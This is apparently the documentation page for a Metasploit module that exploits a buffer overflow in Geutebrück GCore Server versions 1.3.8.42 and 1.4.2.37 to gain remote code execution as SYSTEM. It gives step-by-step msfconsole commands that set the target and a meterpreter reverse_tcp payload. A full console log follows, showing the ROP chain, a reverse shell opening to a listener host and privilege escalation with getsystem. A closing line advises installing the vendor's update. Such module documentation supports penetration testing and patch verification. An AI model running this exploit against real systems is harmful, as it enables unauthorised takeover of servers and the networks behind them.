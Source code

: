 ## Vulnerable Application

  Geutebrück GCore Server 1.3.8.42,1.4.2.37 are vulnerable to a buffer overflow exploitation. Since this application is started with system privileges this allows a system remote code execution.

## Verification Steps

  1. Install Windows as basic OS (Tested with Win2012R2,Windows 7)
  2. Install the Geutebrück GCore server
  3. Verify that http://<your target ip>:13003/statistics/runningmoduleslist.xml available is.
  4. Start msfconsole
  5. Do: ```use [exploit/windows/http/geutebrueck_gcore_x64_rce_bo]```
  6. Do: ```set rhost <your target ip>```
  7. Do: ```set rport 13003```
  8. Do: ```set payload windows/x64/meterpreter/reverse_tcp```
  9. Do: ```exploit```
  10. You should get a shell as NT/SYSTEM.

## Scenarios
```
msf exploit(geutebrueck_gcore_x64_rce_bo) > show options

Module options (exploit/windows/http/geutebrueck_gcore_x64_rce_bo):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.1.10      yes       The target address
   RPORT    13003             yes       The target port



   Payload options (windows/x64/meterpreter/reverse_tcp):

      Name      Current Setting  Required  Description
      ----      ---------------  --------  -----------
      EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
      LHOST     192.168.1.11     yes       The listen address
      LPORT     4444             yes       The listen port


   Exploit target:

      Id  Name
      --  ----
      0   Automatic Targeting

msf exploit(geutebrueck_gcore_x64_rce_bo) > exploit
    [*] Started reverse TCP handler on 192.168.1.11:4444
    [*] 192.168.1.10:13003 - Trying to fingerprint server with http://192.168.1.10:13003/statistics/runningmoduleslist.xml...
    [*] 192.168.1.10:13003 - Vulnerable version detected: GCore 1.4.2.37, Windows x64 (Win7, Win8/8.1, Win2012R2,...)
    [*] 192.168.1.10:13003 - Preparing ROP chain for target 1.4.2.37!
    [*] 192.168.1.10:13003 - Crafting Exploit...
    [*] 192.168.1.10:13003 - Exploit ready for sending...
    [*] 192.168.1.10:13003 - Exploit sent! [*] Sending stage (1188415 bytes) to
    [*] Meterpreter session 1 opened ( :4444 -> 49963) at 2017-11-03 13:14:51 +0200
    [*] 192.168.1.10:13003 - Closing socket.
    meterpreter > getsystem
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
    meterpreter > getuid Server username:
    NT-AUTORITÄT\SYSTEM
    meterpreter >
```
## Mitigation
Geutebrück released a new version and an update for the affected product which should be installed to fix the described vulnerabilities.
